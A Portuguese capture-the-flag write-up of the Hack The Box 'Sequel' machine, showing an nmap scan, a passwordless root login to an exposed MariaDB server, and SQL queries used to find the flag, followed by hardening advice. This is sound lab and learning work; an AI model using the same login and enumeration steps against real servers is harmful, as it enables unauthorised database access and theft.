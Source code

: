 ## HTB: Sequel
### 📋 Informações da Máquina

 - Plataforma: Hack the Box
 - Máquina: Sequel
 - Dificuldade: Muito Fácil
 - Ip: 10.129.x.x


## ⚙️ 0. Resumo
A maquina já é da TIER 2 dos Starting Points, essa ela usa um server MySql na versão MariaDB, o objetivo é ter o acesso remoto root do banco e achar a flag

### ⚠️ 0.1 VULNERABILIDADES IDENTIFICADAS

- Ausência de Autenticação como ROOT
- 
- Serviço Exposto na rede

## 🔍 1. ENUMERAÇÃO
### 1.1 Varredura de Portas

Eu não sabia qual era a porta que estaria o serviço, então decidi escanear um número alto de portas

```bash
sudo nmap -sS -sV -p 1-6379 10.129.x.x
```

📊 Resultado:

```bash
PORT     STATE SERVICE VERSION
3306/tcp open  mysql
``` 

✅ Conclusão: Server MySql encontrado aberto na porta 3306


## ⚡ 2. EXPLORAÇÃO
### 2.1 Conexão com o MySQL

Foi bem fácil na real, ja que o server não tinha autenticação com senha, mas tive que colocar " --skip-ssl"
pois tava dando erro sem isso

```bash
mysql --skip-ssl -u root -h 10.129.x.x
```

### 2.2 Enumeração de Dados

Dentro do MySql, usei comandos para explorar o servidor:

```bash
SHOW DATABASES;
```

🎯 Resultado:

```bash
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
```

### 2.3 Procurando a Flag
Eu fui procurar a flag no banco de dados "htb", para selecionar ele usei:

```bash
 USE htb;
```

e depois usei para ver as tabelas dentro dele:

```bash
SHOW TABLES;
```

🎯 Resultado:

```bash
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
```


### 2.3 Captura da Flag

Após achar essas duas tabelas, eu fui na config, pq achei que era a com mais chance de ter alguma coisa, ent usei


```bash
SELECT * FROM config;
```

🎯 Resultado:

![](htb/screenshots/sequel/flag.png)

## 🛡️ 3. RECOMENDAÇÕES DE SEGURANÇA

- 1. Configurar senha para usuário e usuário ROOT

- 2. Não deixar o serviço aberto e exposto na rede

- 3. Colocar o serviço em uma porta mais alta para dificultar o scan de portas


## 🎯 4. CONCLUSÃO
### 4.1 Resumo do Ataque:

- Complexidade: Baixa

- Impacto: Critíco (Usuário ROOT adquirido)

#### 4.2 Lições Aprendidas:

  1. Sempre coloque senha, e tbm que seja uma senha boa

  2. Não deixe qualquer serviço exposto, tente sempre dificultar o reconhecimento dele

  3. Aprendi a se movimentar em um banco de dados MySql no prompt


### 🧠 Reflexão Pessoal:

"MySQL é um serviço muito usado ainda em muitos sites e aplicações, se você não tiver a devida configuração, alguém que invadir o serviço exposto, pode roubar e deletar todos os bancos de dados hospedados, então sempre coloque senha e proteja seus serviços."

✅ Máquina Finalizada com Sucesso!

Write-up por: Luiz A. | Hack The Box - Sequel | 25/10/25
